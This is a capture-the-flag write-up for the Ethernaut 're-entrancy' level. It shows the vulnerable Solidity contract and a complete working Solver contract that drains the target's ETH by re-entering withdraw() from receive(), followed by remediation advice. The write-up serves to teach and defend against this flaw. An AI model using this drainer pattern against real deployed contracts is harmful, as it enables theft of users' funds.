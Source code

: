 ![Re-entrancy](/assets/img/BigLevel10.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level gives us the following information:

> The goal of this level is for you to steal all the funds from the contract.
>
>  Things that might help:
>
> - Untrusted contracts can execute code where you least expect it.
> - Fallback methods
> - Throw/revert bubbling
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

And presents us with the following code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

# Solution

We start by reading the contract's code and interacting with it.

This contract has three public functions which are: `donate()`, `balanceOf()` and `withdraw()`.

- `donate()`: takes an address as input and is declared as payable, so it can receive ETH. This function takes the received `msg.value` and adds it to the balance of the address received as input. If I execute `donate{value: 10}("0x0001")` it will add 10 Wei to the balance of the address "0x0001".

- `balanceOf()`: returns the balance of an address, in this example if we call `balanceOf("0x0001")` it will return 10 (or '0.00000000000000001' ETH).

- `withdraw()`: this function first checks if the input "_amount" is smaller or equal than the balance of the `msg.sender` (implying that only the sender can withdraw the funds and that they need to have that amount of eth, or more, in their balance). If the conditions passes, it will then send the requested amount to the `msg.sender` and update the balance of that address subtracting the withdrew amount.

Note that inside `withdraw()` there is a call to the `msg.sender` to transfer the requested amount. This `msg.sender` could be a wallet or a contract ;) . And, as in the previous level [King WriteUp](2023-07-11-ethernaut-09-king-writeup.md),  the contract, can execute code trhough `receive()` or `fallback()` when funds are sent.

Also, if we look closer to the `withdraw()` function, we can see that it first transfer the requested funds and then updates the balance. This is a very important part of the re-entrancy vulnerabilities... 

Putting all this together, it would be possible to create a contract that:

1. Sends some ETH to the `Reentrance` contract, which will update the balance of it. Let's say 1 ETH.
2. Calls `withdraw()`, this will make the `Reentrance` contract to send back the 1 ETH sent in the previous step.
3. Defines a `fallback()`, this function will be executed when `Reentrance` calls this statement `(bool result,) = msg.sender.call{value:_amount}("");`. Remember that at this point, the balance wasn't updated yet.
4. Inside `fallback()`, the contract can call `withdraw()` again, as the balance wasn't updated yet, the contract will send us the requested ETH again (if it has the funds in its balance) and it will continue repeating this step until there is no ETH left to withdraw. Stealing then all the funds of the contract. Just what we need to pass the level ;)

Before writing this to code, let's see how much ETH does the contract have:

```javascript
web3.utils.toWei(await getBalance(contract.address))
'1000000000000000'
```

Which is the same as saying 0.001 ETH.

Now, let's code the `Solver.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract Solver {
    Reentrance reentrance;

    constructor(address payable _reentranceAddress) public {
        reentrance = Reentrance(_reentranceAddress);
    }

    receive() external payable {
        if (address(reentrance).balance >= 1000000000000000) {
            reentrance.withdraw(1000000000000000);
        }

    }

    function solve() public payable {
        require(msg.value == 1000000000000000, "Send 1000000000000000 Wei");
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(msg.value);
        (bool status, ) = payable(msg.sender).call{value: address(this).balance}("");
        require(status);
    }
}
```

*Note: after withdrawing all the balance of the contract, I added a statement to send stolen funds back to our wallet, so we don't lose those funds :)*

Now we can deploy this `Solver.sol` with the `Reentrance` address as input. And then execute `solve()` sending 1000000000000000 Wei to it. This will make the contract to send 0.001 ETH to the target, incremeting it's balance, then call withdraw which will make the target to send us back the 0.001 ETH, activating thus the `receive()` function, which will withdraw the remaining 0.001 ETH that the target has on its balance. Stealing thus all the funds :)

After doing this, we can check again the balance of the contract:

```javascript
web3.utils.toWei(await getBalance(contract.address))
'0'
```

So, that's it! We just won the level :D, now we only have to click "Submit Instance".

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

- Make sure all internal state changes are performed before the call is executed. This is known as the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern).
- Use a reentrancy lock (ie. [OpenZeppelin's ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)).

# References

- [SWC-107](https://swcregistry.io/docs/SWC-107)